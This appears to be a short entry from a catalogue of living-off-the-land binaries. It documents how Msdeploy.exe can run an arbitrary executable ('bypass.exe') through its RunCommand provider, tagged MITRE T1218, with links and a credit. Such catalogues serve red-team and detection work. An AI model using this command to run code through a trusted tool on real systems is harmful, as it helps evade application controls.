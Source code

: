 ## Msdeploy.exe
```

msdeploy.exe -verb:sync -source:RunCommand -dest:runCommand="c:\temp\bypass.exe & pause"

```
* Windows binary: False   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1218](https://attack.mitre.org/wiki/Technique/T1218)   
   
* Links:   
  * https://www.iis.net/downloads/microsoft/web-deploy
  * https://twitter.com/pabraeken/status/999090532839313408
   
* File path:   
  * 
   
* Acknowledgement:   
  * Name: Pierre-Alexandre Braeken
    * Twitter: [@pabraeken](https://twitter.com/@pabraeken)
    * Blog: 
   
OS:  
